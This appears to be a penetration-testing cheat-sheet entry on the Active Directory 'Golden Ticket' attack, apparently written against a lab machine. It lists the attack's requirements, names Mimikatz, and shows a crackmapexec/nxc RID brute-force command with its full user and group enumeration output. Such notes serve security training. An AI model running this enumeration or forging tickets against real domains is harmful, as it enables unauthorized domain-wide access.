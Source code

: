 # Golden Ticket (Pass the Ticket)
We can request access to any resource or system on the domain<br>
(Including all machines)
## Requirements
- KRB TGT Hash
- Domain SID
- Target RID
## Attack Overview
Obtain RID values
```
nxc smb 10.129.121.92 -u 'testuser' -p 'Password123' --rid-brute
```
crackmapexec smb 10.129.121.92 -u 'testuser' -p 'Password123' --rid-brute
```
```
$ crackmapexec smb 10.129.121.92 -u 'testuser' -p 'Password123' --rid-brute
SMB         10.129.121.92   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:example.htb) (signing:True) (SMBv1:False)
SMB         10.129.121.92   445    DC01             [+] example.htb\testuser:Password123
SMB         10.129.121.92   445    DC01             [+] Brute forcing RIDs
SMB         10.129.121.92   445    DC01             498: EXAMPLE\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.121.92   445    DC01             500: EXAMPLE\Administrator (SidTypeUser)
SMB         10.129.121.92   445    DC01             501: EXAMPLE\Guest (SidTypeUser)
SMB         10.129.121.92   445    DC01             502: EXAMPLE\krbtgt (SidTypeUser)
SMB         10.129.121.92   445    DC01             512: EXAMPLE\Domain Admins (SidTypeGroup)
SMB         10.129.121.92   445    DC01             513: EXAMPLE\Domain Users (SidTypeGroup)
SMB         10.129.121.92   445    DC01             514: EXAMPLE\Domain Guests (SidTypeGroup)
SMB         10.129.121.92   445    DC01             515: EXAMPLE\Domain Computers (SidTypeGroup)
SMB         10.129.121.92   445    DC01             516: EXAMPLE\Domain Controllers (SidTypeGroup)
SMB         10.129.121.92   445    DC01             517: EXAMPLE\Cert Publishers (SidTypeAlias)
SMB         10.129.121.92   445    DC01             518: EXAMPLE\Schema Admins (SidTypeGroup)
SMB         10.129.121.92   445    DC01             519: EXAMPLE\Enterprise Admins (SidTypeGroup)
SMB         10.129.121.92   445    DC01             520: EXAMPLE\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.121.92   445    DC01             521: EXAMPLE\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.121.92   445    DC01             522: EXAMPLE\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.121.92   445    DC01             525: EXAMPLE\Protected Users (SidTypeGroup)
SMB         10.129.121.92   445    DC01             526: EXAMPLE\Key Admins (SidTypeGroup)
SMB         10.129.121.92   445    DC01             527: EXAMPLE\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.121.92   445    DC01             553: EXAMPLE\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.121.92   445    DC01             571: EXAMPLE\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.121.92   445    DC01             572: EXAMPLE\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.121.92   445    DC01             1000: EXAMPLE\DC01$ (SidTypeUser)
SMB         10.129.121.92   445    DC01             1101: EXAMPLE\DnsAdmins (SidTypeAlias)
SMB         10.129.121.92   445    DC01             1102: EXAMPLE\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.121.92   445    DC01             1103: EXAMPLE\judith.mader (SidTypeUser)
SMB         10.129.121.92   445    DC01             1104: EXAMPLE\Management (SidTypeGroup)
SMB         10.129.121.92   445    DC01             1105: EXAMPLE\management_svc (SidTypeUser)
SMB         10.129.121.92   445    DC01             1106: EXAMPLE\ca_operator (SidTypeUser)
SMB         10.129.121.92   445    DC01             1601: EXAMPLE\alexander.huges (SidTypeUser)
SMB         10.129.121.92   445    DC01             1602: EXAMPLE\harry.wilson (SidTypeUser)
SMB         10.129.121.92   445    DC01             1603: EXAMPLE\gregory.cameron (SidTypeUser)

$
```
## Tools
- Mimikatz
